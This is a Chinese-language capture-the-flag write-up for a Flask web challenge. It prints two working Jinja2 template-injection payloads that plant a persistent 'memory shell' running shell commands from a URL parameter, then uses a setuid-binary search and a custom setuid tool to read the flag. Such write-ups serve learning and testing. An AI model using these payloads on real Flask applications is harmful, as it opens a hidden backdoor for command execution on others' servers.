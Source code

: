 # Web-22｜第二十二章 血海核心·千年手段

## 碎碎念

内存马+提权
***
## Writeup

上面的手段都没法用了，也没有回显，这时候就要寻找新方法了——内存马，它的原理就是在 web 组件或者应用程序中，注册一层访问路由，访问者通过这层路由，来执行我们控制器中的代码，教程可见 [flask 内存马](https://the0n3.top/pages/77dbc1/)

低版本内存马不可行，注入内存马：

```python
{{url_for.__globals__.__builtins__['eval']("sys.modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda: __import__('os').popen(__import__('flask').request.args.get('a')).read())")}}
```

P.S. 根据其他人的 writeup after request 也可以，payload 如下：

```python
{{url_for.__globals__['__builtins__']['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__(\'flask\').make_response(__import__(\'os\').popen(request.args.get(\'cmd\')).read())\")==None else resp)",{'request':url_for.__globals__['request'],'app':url_for.__globals__['sys'].modules['__main__'].__dict__['app']})}}
```

注入之后却发现 env 当中并没有 flag，但是根目录中确实有 flag：

![](../../../../assets/Pasted%20image%2020251030102450.png)

查看 whoami 发现我们并不是 root，因此还需要提权，用命令行 `find / -perm -4000 2>/dev/null` 查看所有有 setuid 位的东西：

![](../../../../assets/Pasted%20image%2020251030103013.png)

只有一个奇怪的 rev 不知道是什么东西，查看 /usr/bin 内竟然有 c 源码，可以看到：

![](../../../../assets/Pasted%20image%2020251030103231.png)

因此我们只要通过命令行 `rev --HDdss cat /flag` 即可得到 flag：`moectf{fcbd28de-bb23-187f-f8cd-feee6bc4cdf2}`